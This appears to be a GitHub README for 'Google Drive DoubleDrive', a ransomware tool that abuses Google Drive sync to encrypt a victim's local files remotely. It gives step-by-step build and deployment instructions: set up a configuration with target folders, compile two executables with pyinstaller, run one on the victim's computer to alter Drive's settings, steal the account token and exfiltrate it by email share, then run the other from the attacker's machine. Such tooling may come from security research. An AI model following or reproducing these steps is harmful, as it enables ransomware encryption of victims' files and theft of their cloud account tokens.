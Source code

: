 # Google Drive DoubleDrive
A DoubleDrive variant that uses Google Drive to encrypt local files remotely.

## How to use
1. Make sure you clone the DoubleDrive repo and install the DoubleDrive python package. If you are currently in the google_drive_doubledrive folder then run:
```cmd
pip install ../
```
2. Use `config_setup.py` to setup the exact configuration you want for the ransomware. For example:
```cmd
python .\config_setup.py --temp-email --target-paths C:\Users\Admin\Documents C:\Users\Admin\Desktop
```
3. While you are in the google_drive_doubledrive folder, run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\endpoint_takeover.py; pyinstaller --onefile --add-data "config.yaml;." .\google_drive_doubledrive.py
```
4. A folder named `dist` will be created. Inside you can find `endpoint_takeover.exe` and `google_drive_doubledrive.exe`
5. Transfer `endpoint_takeover.exe` to the victim computer and run it. This will change Google Drive's settings database to sync the target paths to encrypt. It will also extract the token of the currently logged in Google Drive account and exfiltrate it by sharing it with the email address chosen in the configuration setup stage.
> Note - If you chose a temporary email address you should continue to the next step as soon as possible because the generated temporary email address that DoubleDrive uses works for a limited amount of time.
1. On the attacker's computer, execute:
```cmd
google_drive_doubledrive.exe
```